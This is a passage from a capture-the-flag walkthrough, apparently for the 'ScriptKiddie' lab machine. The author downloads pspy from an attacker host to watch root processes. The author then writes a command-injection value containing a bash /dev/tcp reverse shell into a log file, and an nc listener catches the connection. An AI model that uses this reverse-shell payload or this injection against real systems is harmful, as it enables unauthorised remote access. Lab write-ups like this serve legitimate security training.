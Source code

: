 We use `pspy` to have a confirmation:

```
kid@scriptkiddie:~$ wget http://10.10.14.28:8000/pspy64
--2021-05-27 22:24:24--  http://10.10.14.28:8000/pspy64
Connecting to 10.10.14.28:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                          100%[=====================================================================================================>]   2.94M  4.97MB/s    in 0.6s

2021-05-27 22:24:25 (4.97 MB/s) - ‘pspy64’ saved [3078592/3078592]

kid@scriptkiddie:~$ chmod +x ./pspy64
kid@scriptkiddie:~$
kid@scriptkiddie:~$
kid@scriptkiddie:~$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2021/05/27 22:24:35 CMD: UID=0    PID=99     |
2021/05/27 22:24:35 CMD: UID=0    PID=98     |
2021/05/27 22:24:35 CMD: UID=0    PID=97     |
2021/05/27 22:24:35 CMD: UID=0    PID=96     |
2021/05/27 22:24:35 CMD: UID=0    PID=95     |
2021/05/27 22:24:35 CMD: UID=0    PID=947    | /usr/lib/policykit-1/polkitd --no-debug
2021/05/27 22:24:35 CMD: UID=0    PID=94     |
2021/05/27 22:24:35 CMD: UID=0    PID=939    | /sbin/ag
```

We change script in order to execute a reverse shell:

```
root@kali:~# nc -nlvp 6666
listening on [any] 6666 ...




kid@scriptkiddie:~$ echo '  ;/bin/bash -c "bash -i >& /dev/tcp/10.10.14.28/6666 0>&1" #' > /home/kid/logs/hackers




connect to [10.10.14.28] from (UNKNOWN) [10.10.10.226] 43376
bash: cannot set terminal process group (872): Inappropriate ioctl for device
```